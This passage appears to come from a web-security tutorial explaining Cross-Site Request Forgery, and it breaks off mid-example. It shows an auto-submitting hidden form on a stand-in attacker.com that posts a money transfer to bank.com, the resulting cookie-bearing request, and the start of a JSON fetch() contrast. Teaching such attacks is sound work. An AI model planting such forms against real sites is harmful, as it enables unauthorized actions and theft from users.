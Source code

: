 ### **3. Cross-Site Request Forgery (CSRF)**

#### **Scenario**: Form Submission with `application/x-www-form-urlencoded`

**HTML Form on `attacker.com` trying to perform CSRF:**

```html
<!-- attacker.com -->
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
  <input type="submit" value="Transfer Money">
</form>
<script>
  document.forms[0].submit();  // Automatically submit the form
</script>
```

**HTTP Request Sent:**

```
POST /transfer HTTP/1.1
Host: bank.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

amount=1000&to=attacker
```

**What Happens?**

- **Automatic Cookie Inclusion**: When the form is submitted, the browser automatically includes the session cookie (`session=abc123`) in the request to `bank.com`.
- **Request is Authenticated**: `bank.com` processes the request as if it came directly from the user, transferring money to the attacker.

#### **Why `application/json` is Different**

**JavaScript Example with `application/json`:**

```javascript
// attacker.com
fetch('https://bank.com/transfer', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    amount: 1000,
    to: 'attacker'
  })
});
```

**Request that JavaScript Sends:**
